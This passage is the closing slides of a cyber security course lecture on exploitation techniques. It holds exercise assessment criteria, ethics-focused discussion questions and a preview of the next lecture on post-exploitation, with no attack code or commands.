- Risk assessment and business impact analysis
- Ethical guidelines and professional conduct framework

### 💡 Assessment Criteria:
- **Technical Sophistication**: Advanced exploitation techniques and methodologies
- **Operational Security**: Stealth, evasion, and anti-detection measures
- **Strategic Thinking**: Multi-stage approach with contingency planning
- **Risk Awareness**: Understanding of business impact and ethical boundaries
- **Professional Conduct**: Adherence to ethical hacking principles and legal compliance

</div>

<style>
.exercise-container {
  @apply bg-gray-50 border-2 border-gray-400 rounded-lg p-6;
}
</style>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 27 | Author: Milav Dabgar
</div>

---
layout: center
class: text-center
---

# Questions & Discussion

## 🤔 Strategic Thinking Points:
- How do you balance exploitation depth with assessment timeline constraints?
- What ethical considerations guide your exploitation approach?
- How do you ensure exploitation activities don't cause business disruption?

### 💡 Exercise Review
Present your exploitation strategies and discuss advanced attack methodologies

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 27 | Author: Milav Dabgar
</div>

---
layout: center
class: text-center
---

# Thank You!

## Next Lecture: Post-Exploitation and Persistence Techniques
### Maintaining Access and Advancing Objectives

<div class="pt-8 text-gray-500">
  <p>Cyber Security (4353204) - Lecture 27 Complete</p>
  <p>With great power comes great responsibility! ⚡🛡️</p>
</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 27 | Author: Milav Dabgar
</div>